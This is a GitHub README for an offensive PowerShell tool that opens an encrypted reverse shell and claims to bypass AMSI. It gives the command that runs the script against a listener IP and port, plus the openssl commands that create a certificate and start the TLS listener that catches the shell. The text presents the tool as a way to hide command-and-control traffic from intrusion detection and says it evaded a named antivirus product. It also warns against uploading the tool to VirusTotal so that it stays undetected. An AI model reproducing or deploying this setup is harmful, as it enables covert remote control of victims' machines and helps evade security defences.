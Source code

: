 # RevershellTCPEncrypt_BypassAMSI

This script is based on Nishang's, thanks for sharing<br>

```sh
.\rc2.ps1 192.168.1.6 443
```
## Generate Certificate 

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

## Generate server reverse shell

```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

This shell allows you to encrypt your C2, at the network transfer level at the transport and application layers mitigating the detection of rule anomalies of some IPs/IDs.<br>

A proof of concept was carried out in several AVs, in the photo I avoided a S0ph0s on disk and memory.

![image](https://user-images.githubusercontent.com/66162160/206824568-3d5d7e93-f0b3-4898-927a-c45afdb48882.png)

## ! Do not upload to total virus!
